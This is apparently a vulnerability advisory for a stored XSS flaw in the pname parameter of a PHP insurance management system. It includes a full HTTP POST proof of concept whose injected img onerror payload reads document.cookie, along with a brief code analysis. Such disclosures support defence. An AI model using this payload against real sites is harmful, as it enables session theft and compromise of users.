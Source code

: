 ## Affected version: 
Insurance Management System - 1.0

## Vendor:
https://www.sourcecodester.com/users/munyweki

## Software:
https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html

## Vulnerability File:
/E-Insurance/Script/admin/core/update_pol

## Description:
There is a stored XSS vulnerability in the insurance management system. There is XSS in the pname parameter of the system. An attacker can obtain sensitive information of the system through this vulnerability.

Status: CRITICAL

POC
```
POST /E-Insurance/Script/admin/core/update_policy HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Origin: http://localhost
Connection: close
Referer: http://localhost/E-Insurance/Script/admin/?page=policy
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd; __insuarance__logged=1; __insuarance__key=SK9MGL4R5CQPM34FZSH3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

category=7&subcategory=13&pname=%3Cimg+Src%3D1+Onerror%3Dalert%28document.cookie%29%3E&sum_ass=-3&premium=2&tenure=2&status=1&submit=1&id=5
```

<img width="1295" alt="image" src="https://github.com/user-attachments/assets/dd103032-0729-4c78-beca-6446fc43aaaa">

<img width="1612" alt="image" src="https://github.com/user-attachments/assets/53ac0c9a-296d-4eb8-91bc-2695c6e76db2">

## code analysis:

First insert the results into the database and use echo on the front end to output, resulting in stored XSS.

<img width="1180" alt="image" src="https://github.com/user-attachments/assets/94bcaa17-be86-464a-a652-ccfd31de8442">


<img width="1187" alt="image" src="https://github.com/user-attachments/assets/b1477e7b-98f6-4c08-92cc-7765152b31eb">



 

